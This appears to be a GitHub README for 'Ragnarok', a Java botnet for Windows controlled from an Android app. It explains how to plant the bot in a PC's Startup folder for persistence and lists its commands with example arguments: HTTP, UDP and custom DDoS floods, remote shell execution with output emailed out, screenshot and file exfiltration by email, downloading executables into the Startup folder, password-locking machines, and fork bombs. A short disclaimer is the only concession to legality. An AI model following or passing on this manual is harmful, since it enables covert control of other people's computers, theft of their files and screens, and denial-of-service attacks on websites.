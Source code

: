 # Ragnarok
Java Botnet for Windows (Not released yet)

---EULA---

Ragnarok is a botnet with both fun purpose harmless commands and real ddos capability which can be used to measure ddos resistance on web services by launching attacks from multiple devices.
Ddosing a website without getting permission from its owner is illegal in most of countries.
Installing botnet to school, internet cafe or workplace computers without getting permission is illegal in most of countries.
Using Ragnarok's fun purpose commands on computers that belongs to other people or companies for malicious intent like disabling/locking computer, stealing personal files, executing harmful terminal commands, installing another software/files, watching their screen or causing their browser to visit a harmful website is considered illegal in most of countries.

I dont take any responsibility if you cause any harm with this program so use it at your own risk!

---How To Use---

Step 1: Download Ragnarok app to your Android device from googleplay.

Step 2: Download RagnarokBot.jar from this Github page

Step 3: Copy RagnarokBot.jar to "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\" folder on any windows pc you want to remotely control then make sure you rename it to anything else than RagnarokBot because default name forbidden for creating bot groups. (copying it to startup folder makes windows start it everytime pc turns on)

Step 4: Install Java 8 update 361 (lastest of Java 8) to that pc. Do not install Java versions that came after than Java 8 because they cause massive bugs. You can just download JavaSetup8u361.exe from this Github and use that to install perfect Java version for Ragnarok.

Step 5: Start bot by double clicking that renamed jar file and then open Ragnarok app from your android device and then type name of your jar file to bot name section and press connect.
When you send a command to a bot name then all of bots around the world which has that bot name on itself will execute that commands so make sure you note what name you used when renaming your jar file.

Step 6: After app says "Connected" you can pick any command from command list then send it to connected bots around the world.
Keep reading to learn about how to modify command arguments.

---How To Send Commands---

Some commands can be sent without any arguments meanwhile some of them require arguments which needs to be seperated with '#' symbol. Arguments bar will be filled with argument template of related command when you select a command so all you need to do is replacing these arguments before sending selected command. Leave arguments bar empty if it comes as empty when you select a command because that means selected command doesnt require any arguments. You can find example command arguments for all available commands below.

---Command List---

HttpFlood;
Arguments: Url, Threads
Effect: Launches specified number of ddos attacks to given url by using http flood method.
Example Command Argument: https://example.com/#5000

UdpFlood;
Arguments: Ip, Threads
Effect: Launches specified number of ddos attacks to given ip/domain by using udp flood method.
Example Command Argument 1: 93.184.216.34#100
Example Command Argument 2: example.com#100

Clusterstorm;
Arguments: Url, Threads
Effect: Launches specified number of ddos attacks to given url by using powerful custom method.
Example Command Argument: https://example.com/#5000

I-Mod;
Arguments: Url, Threads, DelayMillisec, PayloadCount
Effect: Launches specified number of ddos attacks to given url by using powerful custom method.
Example Command Argument: https://example.com/#5000#250#30

Pulsar;
Arguments: Url, Threads, Delay
Effect: Launches specified number of ddos attacks to given url by using powerful custom method.
Example Command Argument: https://example.com/#5000#250

Lock;
Arguments: password
Effect: prevents target computers from being used until users enter correct password that you set.
Example Command Argument: 123456789

Browse;
Arguments: Url
Effect: Uses default browser to open specified url.
Example Command Argument: https://example.com/

Terminal;
Arguments: CMD
Effect: Executes given terminal command on windows terminal
Example Command Argument: ipconfig

Terminal&Output;
Arguments: CMD, ToEmail
Effect: Executes given terminal command on windows terminal then emails results to given adress.
Example Command Argument: ipconfig#yourmail@gmail.com

Message;
Arguments: Text
Effect: Shows given text on screen.
Example Command Argument: something is in your pc

ChangeDesktopBG;
Arguments: JpgUrl, IntervalMS
Effect: Changes desktop background image with given image from a url in a loop.
Example Command Argument: https://example.com/image.jpg#1000

Screenshot;
Arguments: Count, IntervalMS, ToEmail
Effect: Takes screenshots according to given count and interval then emails them to given adress.
Example Command Argument: 5#10000#yourmail@gmail.com

EmailFile;
Arguments: FilePath, ToEmail, Message
Effect: Picks file according to given path then emails it to given adress with specified message. Uploads file to yandex drive if file is too big to email directly.
Example Command Argument: C:\Users\Admin\Desktop\Document.pdf#yourmail@gmail.com#yay

DownloadFile;
Arguments: Url, FilePath
Effect: Downloads a file from url then puts it to specified location. Downloaded file will be replaced if a file already exists with same name and extension on specified location.
Example Command Argument 1: https://example.com/image.jpg#C:\Users\Admin\Desktop\image.jpg
Example Command Argument 2: https://example.com/someprogram.exe#C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\someprogram.exe

StickyMouse;
Arguments: None
Effect: Mouse cursor wont be able to move far away from its current point.

CrazyMouse;
Arguments: None
Effect: Mouse cursor moves around randomly.

CrazyDrivers;
Arguments: None
Effect: CD/DVD roms will keep opening and closing itself.

CrazyKeyboard;
Arguments: None
Effect: Keyboard will type random stuff constantly. 

BSOD;
Arguments: None
Effect: Creates a fake BSOD effect which can be closed by pressing 'E' key.

ForkBomb;
Arguments: None
Effect: Overloads CPU until pc freezes.

ForkBombUltimate;
Arguments: None
Effect: Same with ForkBomb command but uses different method.

---Things To Remember---

You can have multiple bots with different names on same pc.
There is a chance that somebody else using same bot name with your bot. That will cause his/her commands to be executed by yours too meanwhile your commands will be executed by their botnet too so better prefer some unique names for your jar file (botnet) to have some privacy.
You can copy your bot to any other folder than startup folder and launch it yourself when you need it if you dont want it to auto start when pc turns on.
